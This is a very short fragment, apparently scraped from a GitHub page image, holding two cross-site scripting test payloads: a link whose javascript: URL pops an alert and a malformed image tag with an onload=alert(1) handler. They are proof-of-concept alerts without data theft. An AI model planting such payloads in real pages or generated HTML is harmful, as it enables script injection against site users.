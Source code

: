 # <a href="javascript:alert('XSS Attack!');">Click me</a>
<img src=https://in.pinterest.com/pin/932245191599758496/>onload=alert(1)</img>
